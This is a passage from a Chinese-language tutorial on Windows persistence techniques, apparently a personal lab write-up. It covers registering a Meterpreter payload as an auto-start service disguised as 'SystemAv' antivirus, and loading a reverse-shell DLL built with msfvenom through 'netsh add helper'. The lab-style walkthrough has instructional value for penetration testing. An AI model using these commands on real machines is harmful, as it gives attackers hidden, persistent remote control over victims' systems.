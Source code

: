 通过启动项可以看到确实增加了一个名为 `demo` 的进程.但是当我们使用 `net start demo` 时却没有弹出计算器. 通过 `任务管理器` 看到确实
增加了一个 `calc.exe` 的进程.

为了确定能够上线,这里我生成一个 `msfshell.exe`,并注册一个服务用来启动他.
从结果可以看到 `net start msf` 的结果报告 `服务没有响应控制功能` ,但我的 `msf` 这边还是建立了 `meterpreter` 会话. 说明没有问题.
![20220622233044](http://particles.oss-cn-beijing.aliyuncs.com/img%5Ccfe1fbd4f0ea0b15ae8e3a8c93c1d008.png)

![20220622233250](http://particles.oss-cn-beijing.aliyuncs.com/img%5C6ec05027decb99d8f3f1f035486cc09a.png)

在通常情况下, 我们可以将 `start= auto` 以实现开机自启动,同时可以还可以使用 `sc description demo "description"` 以及 `sc config demo DisplayName "name"` 来使得我们的服务更加具有迷惑性

举例:

这里我将第二个创建的服务 `msf` 命名为了 `SystemAv`,并为其增加了一个描述`System Anti Anti- Virus`:
```
sc config msf DisplayName "SystemAv"
sc description msf "System Anti Anti- Virus"
```
![20220622234027](http://particles.oss-cn-beijing.aliyuncs.com/img%5C9259f9c1bd9038c7ccd936ec2511a98e.png)


## 进阶篇之VMI后门
// TODO 这玩意网上介绍挺少的，后面补充

## 进阶篇之NetshHelper DLL

原理：

> Netsh.exe（也称为Netshell）是一个命令行脚本实用程序，用于与系统的网络配置进行交互。它包含添加辅助DLL以扩展实用程序功能的功能，使用“netsh add helper”即可注册新的扩展DLL，注册扩展DLL后，在启动Netsh的时候便会加载我们指定的DLL。注册的Netsh Helper DLL的路径会保存到Windows注册表中的HKLM\SOFTWARE\Microsoft\Netsh路径下。但是，此技术的实现需要本地管理员级别的特权。

`实验`

这里我是用 `msfvenom`  生成一段恶意 `DLL文件`.

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.21 LPORT=4444 -f dll > msf.dll
```

> 踩坑 这里在生成 `dll文件` 时如果不指定 x64，在后面进行 `netsh add helper C:\user\Administrator\Destop\msf.dll` 导入时会出现 `下面帮助者dll
> 不能被加载` 的错误. 怀疑可能时因为操作系统时 64位的原因. 暂未测试.
> 

将 `dll` 上传目标机器后执行:

```sh
netsh add helper dll的路径.
```

![20220623134740](http://particles.oss-cn-beijing.aliyuncs.com/img%5Cf1e513c55bfa95c0189ec5ff0dc6b5d5.png)

![20220623134959](http://particles.oss-cn-beijing.aliyuncs.com/img%5C804366a20ef4aa252c5f79063f00d4d0.png)

